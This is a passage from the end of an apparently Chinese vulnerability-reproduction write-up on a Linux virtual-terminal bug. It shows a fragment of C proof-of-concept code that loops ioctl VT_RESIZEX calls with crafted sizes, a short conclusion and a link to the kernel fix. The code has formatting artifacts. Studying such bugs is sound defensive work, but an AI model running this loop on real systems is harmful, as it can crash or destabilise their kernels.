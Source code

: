 ```
        `}`
        printf("main thread finishn");
    `}`
    `}`else`{`
        struct vt_consize v;
        v.v_vcol=v.v_ccol=v.v_clin=v.v_vlin=1;
        v.v_rows=v.v_vlin/v.v_clin;
        v.v_cols=v.v_vcol/v.v_ccol;
    while(1)`{`
            ioctl(fd,VT_RESIZEX,&amp;v);
        printf("child finishn");
    `}`
    `}`
    return 0;
`}`
```



## 0x05 总结

这个漏洞实际上没有什么攻击性，也不是特别难，但是，我想通过我的复现过程，来给大家复现其他漏洞的一些复现思路



## 0x06 参考链接

[https://github.com/torvalds/linux/commit/6cd1ed50efd88261298577cd92a14f2768eddeeb](https://github.com/torvalds/linux/commit/6cd1ed50efd88261298577cd92a14f2768eddeeb)
